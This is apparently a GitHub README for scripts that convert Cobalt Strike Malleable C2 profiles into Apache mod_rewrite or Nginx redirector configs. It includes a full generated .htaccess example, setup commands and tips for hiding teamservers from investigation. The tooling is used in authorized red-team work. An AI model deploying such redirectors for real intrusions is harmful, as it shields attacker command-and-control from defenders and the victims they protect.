 # Automatically Generate Rulesets for Apache mod_rewrite or Nginx for Intelligent HTTP C2 Redirection
![Python application](https://github.com/threatexpress/cs2modrewrite/workflows/Python%20application/badge.svg)
This project converts a Cobalt Strike profile to a functional mod_rewrite `.htaccess` or Nginx config file to support HTTP reverse proxy redirection to a Cobalt Strike teamserver. The use of reverse proxies provides protection to backend C2 servers from profiling, investigation, and general internet background radiation.

***Note***: You should test and tune the output as needed before deploying, but these scripts should handle the heavy lifting.

***Note by lapolis***: THIS IS NOT AN IMPROVED version of the original `cs2nginx.py`, all the modifications are just based on personal taste and lazynes.

## Features

- Now requires Python 3.0+ (this is 2020 after all)
- Supports the Cobalt Strike custom URI features as of CS 4.0
- Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string.
  - Result: Only requests to valid C2 endpoints with a specified UA string will be proxied to the Team Server by default.
- Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
- Uses a custom Malleable C2 profile to build a Nginx config with corresponding proxy_pass rules
- HTTP or HTTPS proxying to the Cobalt Strike Team Server
- HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to `.htaccess` or `/etc/nginx/nginx.conf` on your redirector
3) Modify as needed
4) Reload\restart the web server

## Apache mod_rewrite Example Usage

```
python3 cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -r https://GOHERE > /var/www/html/.htaccess
#### Save the following as .htaccess in the root web directory (i.e. /var/www/html/.htaccess)

########################################
## .htaccess START 
RewriteEngine On
## Uncomment to enable verbose debugging in /var/logs/apache2/error.log
# LogLevel alert rewrite:trace5
## (Optional)
## Scripted Web Delivery 
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## Default Beacon Staging Support (/1234)
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

## Redirect all other traffic here (Optional)
RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

## .htaccess END
########################################
```
## Apache Rewrite Setup and Tips

### Enable Rewrite and Proxy
    apt-get install apache2
    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

**Note:** https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

### Enable SSL support

Ensure the following entries are in the site's config (i.e. `/etc/apache2/available-sites/*.conf`)

    # Enable SSL
    SSLEngine On
    # Enable SSL Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generated by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off
    SSLProxyCheckPeerExpire off
### .HTACCESS

If you plan on using mod_rewrite in .htaccess files (instead of the site's config file), you also need to enable the use of `.htaccess` files by changing `AllowOverride None` to `AllowOverride All`. For all websites, edit `/etc/apache2/apache.conf`

    <Directory /var/www/>
        Options FollowSymLinks MultiViews
        AllowOverride All
        Order allow,deny
        allow from all
    </Directory>

Finally, restart apache once more for good measure.

`service apache2 restart`

### Troubleshooting

If you need to troubleshoot redirection rule behavior, enable detailed error tracing in your site's configuration file by adding the following line.

`LogLevel alert rewrite:trace5`

Next, reload apache, and monitor `/var/log/access.log` `/var/log/error.log` to see which rules are matching.

----------------------------------------------

## Nginx Example Usage

### Install Nginx

    apt-get install nginx nginx-extras

**Note:** `nginx-extras` is needed for custom server headers. If you can't get this package, then comment out the server header line in the resulting configuration file.

### Create Redirection Rules

Save the cs2nginx.py output to `/etc/nginx/nginx.conf` and modify as needed (SSL parameters).

`python3 ./cs2nginx.py -i havex.profile -c https://127.0.0.1 -r https://www.google.com -H mydomain.local >/etc/nginx/nginx.conf`

Finally, restart nginx after modifying the server configuration file.

`service nginx restart`

## Final Thoughts

Once redirection is configured and functioning, ensure your C2 servers only allow ingress from the redirector and your trusted IPs (VPN, office ranges, etc).

Consider adding additional redirector protections using GeoIP restrictions (mod_maxmind) and blacklists of bad user agents and IP ranges. Thanks to [@curi0usJack](https://twitter.com/curi0usJack) for the ideas.

## References

- [Joe Vest and Andrew Chiles - cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

- [@bluescreenofjeff - Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)

- [Adam Brown - Resilient Red Team HTTPS Redirection Using Nginx](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)

- [Apache - Apache mod_rewrite Documentation](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)
